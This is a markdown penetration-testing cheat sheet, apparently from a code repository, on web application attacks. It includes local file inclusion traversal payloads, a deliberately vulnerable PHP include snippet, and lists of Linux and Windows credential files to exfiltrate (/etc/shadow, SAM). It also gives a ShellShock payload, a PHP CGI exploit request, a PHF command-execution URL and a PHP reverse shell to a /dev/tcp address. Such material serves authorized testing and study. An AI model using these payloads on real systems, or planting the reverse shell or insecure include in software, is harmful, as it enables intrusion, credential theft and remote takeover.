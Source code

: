 # Tools
  * Burp Spidering
  * Nikto
  * Dirbuster
  * Dirb


## SQL Injection

....

----------------
# Local File Inclusion (LFI)
In versions of PHP below 5.3 can terminate with a null byte
```
?name=Haxor&type=2&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
```

## Enumerating LFI
*Code:*
```php
<?php
  $file = $_GET[‘file’];
  if(isset($file))
  {
    include(“pages/$file”);
  }
  else
  {
    include(“index.php”);
  }
?>
```

*Testing for LFI:*
```
/script.php?page=../../../../../../../../etc/passwd
```

## Exfiltrate Linux Files
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin - [CVE-2014-6271]**
<br/>
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```
----------------
**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
<br/>
_Detection:_
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_
```
POST /?-%64+allow_url_include%3dOn+-%64+safe_mode%3d0+-d+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-%64+open_basedir%3dnone+-%64+auto_prepend_file%3dphp://input+--define+cgi.force_redirect%3d0+--define+cgi.redirect_status_env%3d0+-%6e HTTP/1.1
```

_POST Body Reverse TCP Shell_
```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.11.4/4444 0>&1'");die; ?>
```
----------------
**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

```
